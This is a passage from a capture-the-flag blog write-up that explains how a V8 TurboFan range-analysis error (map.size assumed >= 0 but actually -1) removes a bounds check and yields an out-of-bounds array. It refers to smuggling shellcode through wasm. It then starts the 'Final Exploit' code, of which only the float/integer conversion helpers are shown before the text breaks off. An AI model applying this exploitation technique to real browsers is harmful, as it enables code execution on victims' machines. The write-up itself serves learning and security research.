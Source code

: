 What is happening here ? We are calling the function in a while loop to trigger turbfan optimization for the specific function. In the fuction `bob`. We are creating 2 arrays, one for creating a OOB Array and another to help overwrite the length field of the OOB Array. But what exactly is happening and how does this work?

### Simplified Lowering:
- ![alt text](/images/holycow25/image-1.png)

You can clearly see that the compiler has wrong ranges assigned for the `map.size` which is `>= 0`. But in reality we have our `map.size` as `-1`. This could cause problems because in the further optimizations we can see that the bound check has completely vanished.

### Upuntil TFinlining:
- ![alt text](/images/holycow25/image-2.png)

### Bytecode Graph Builder:
- ![alt text](/images/holycow25/image-3.png)

### Finale:
so we go on to exploit the OOB array that was created using the incorrent `range analysis`. To make things easier the author has disabled heap sandboxing, otherwise you would need a 0day/ nday to solve the challenge. If you have doubts regarding how we use `wasm` to create and [smuggle shellcode read my other blogpost](https://tourpran.github.io/posts/1728447510508-v8---arrayshift-race-condition./#how-to-smuggle-shellcode).

### Final Exploit:
```js
///////////////////////////////////////////////////////////////////////
///////////////////         Utility Functions       ///////////////////
///////////////////////////////////////////////////////////////////////

let hex = (val) => '0x' + val.toString(16);

// 8 byte array buffer
const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

// typeof(val) = float
function ftoi(val) {
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); // Watch for little endianness
}

function print(x){
    console.log("[+] " + x);
}

// typeof(val) = BigInt
function itof(val) {
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
    return __f64_buf[0];
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
```